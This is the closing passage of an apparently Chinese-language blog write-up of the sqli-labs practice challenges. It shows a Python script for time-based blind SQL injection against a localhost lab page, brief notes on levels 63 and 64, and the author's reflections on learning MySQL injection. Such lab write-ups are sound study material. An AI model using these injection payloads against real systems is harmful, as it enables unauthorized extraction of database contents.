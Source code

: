 ```python
    
for i in range(1,lenth+1):
    for j in payload:
        try:
            url = "http://127.0.0.1/sqli/less-62/?id=1') and if(mid((select table_name from information_schema.tables where table_schema='CHALLENGES'),"+str(i)+",1)='"+str(j)+"',sleep(5),1)--+"
            r = requests.get(url,timeout=5)
        except:
            result +=str(j)
            continue
    print result
```
![](https://upload-images.jianshu.io/upload_images/11356161-71ce868c1ca27996.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

***

**Less-63**

单引号闭合，同上关脚本

***

**Less-64**

("$id")闭合，同上上关脚本

***

**前前后后花了大概半个月刷完了sqli-labs，对于Mysql数据库的注入算勉强入门，对于MSSql，Oracle或是MongoDB等nosql型数据库还需学习积累经验。网上有很多大牛的payload让人惊奇是如何想到的，想达到那一步需要积累足够的经验。继续学习吧！**

## end

